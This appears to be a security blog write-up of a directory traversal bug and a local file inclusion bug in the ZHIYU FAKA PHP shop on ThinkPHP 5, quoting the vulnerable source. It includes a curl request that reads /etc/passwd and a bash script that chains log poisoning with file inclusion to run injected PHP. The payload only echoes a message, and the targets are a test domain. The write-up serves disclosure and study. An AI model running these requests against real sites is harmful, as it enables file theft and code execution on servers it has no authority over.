 ```yaml
---
title: ZHIYU FAKA Vulnerabilities
date: 2021-11-14 19:50:43
updated: 2021-11-14 19:50:43
tags:
- web-security
- php
- directory-traversal
- local-file-inclusion
---
```


## 0x01 Overview

Testing Environment:

- PHP Version: 7.0
- ThinkPHP Version: 5.0.14
- Local Testing Domain: zyfk.vuln.io

<!--more-->
## 0x02 Directory Traversal

### 0x021 Source File

`application/wechat/controller/Review.php`

```php
...
    /**
     * 微信图片显示
     */
    public function img()
    {
        $url = $this->request->get('url', '');
        $filename = FileService::getFileName($url, 'jpg', 'tmp/');
        if (false === ($img = FileService::getFileUrl($filename))) {
            $info = FileService::save($filename, file_get_contents($url));
            $img = (is_array($info) && isset($info['url'])) ? $info['url'] : $url;
        }
        $this->redirect($img);
    }
...
```

In the `img` function, the server takes the GET parameter `url` from the user and then saves it to a local/remote location. Then the server will serve this file to the user by a `302` redirect. However, in **line 7** we can see that the `url` parameter here is not validated, which allows directory traversal if `open_basedir` is not set correctly. With `open_basedir` set to the website directory, log files and source code can still be obtained by exploiting this vulnerability.

### 0x022 PoC

```console
$ curl -L "http://zyfk.vuln.io/wechat/review/img?url=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
...
```

## 0x03 Local File Inclusion

### 0x031 Source File

`application/wechat/controller/Review.php`

```php
...
    public function index()
    {
        $get = $this->request->get();
        $content = str_replace("\n", "<br>", $this->request->get('content', '')); // 内容
        $type = $this->request->get('type', 'text'); // 类型
        $this->assign('type', $type);
        // 图文处理
        if ($type === 'news' && is_numeric($content) && !empty($content)) {
            $news = WechatService::getNewsById($content);
            $this->assign('articles', $news['articles']);
        }
        // 文章预览
        if ($type === 'article' && is_numeric($content) && !empty($content)) {
            $article = Db::name('WechatNewsArticle')->where('id', $content)->find();
            if (!empty($article['content_source_url'])) {
                $this->redirect($article['content_source_url']);
            }
            $this->assign('vo', $article);
        }
        $this->assign($get);
        $this->assign('content', $content);
        // 渲染模板并显示
        return view();
    }
...
```

In **line 21**, `$get` object is passed to `assign` method unvalidated. By passing `cacheFile` in a GET call:
`http://zyfk.vuln.io/wechat/review/index/?cacheFile=${file_path}`

The server will execute `include $file_path`, as explained in detail [here](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB7.md). This vulnerability is only valid if **5.0.0 <= ThinkPHP Version <= 5.0.18 OR 5.1.0 <= ThinkPHP Version <= 5.1.10**.

To further exploit this vulnerability, we need somewhere to upload our PHP payload.
In `application/payment/controller/Index.php`:

```php
...
    public function notify()
    {
        file_put_contents(LOG_PATH . 'payment_notify.txt', "【" . date('Y-m-d H:i:s') . "】\r\n" . file_get_contents("php://input") . "\r\n\r\n", FILE_APPEND);

        $channelId = input('channel/s', '');
        if (empty($channelId)) {
            die('false');
        }

        $params = $this->getParams($channelId);
        list($cash, $account) = $this->getCashInfo($params);

        //查找渠道
        try {
            $channel = CashChannel::get(['code' => $channelId]);
            $class = '\\app\\common\\payment\\' . $channel->code;
            $obj = new $class($account);
            $res = $obj->notify($params, $cash);
        } catch (Exception $e) {
            echo 'FALSE';
            exit;
        }
    }
...
```

In **line 4**, the POST content is saved to `LOG_PATH + payment_notify.txt` without any validation, where the PHP payload can be uploaded.

### 0x032 PoC

`zhiyu-faka-lfi-exploit.sh`

```bash
#!/bin/bash
echo "posting php payload..."
curl -d "<?php echo 'exploited successfully!'; ?>" -X POST "http://zyfk.vuln.io/payment/index/notify/" > /dev/null
echo "executing payload..."
curl "http://zyfk.vuln.io/wechat/review/index/?cacheFile=runtime/log/payment_notify.txt"
```

Result:

```console
$ ./zhiyu-faka-lfi-exploit.sh
posting php payload...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    43    0     5  100    38    120    915 --:--:-- --:--:-- --:--:--  1264
executing payload...
【2021-10-20 12:22:39】
exploited successfully!
```

## 0x04 Reference

1. [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB7.md)
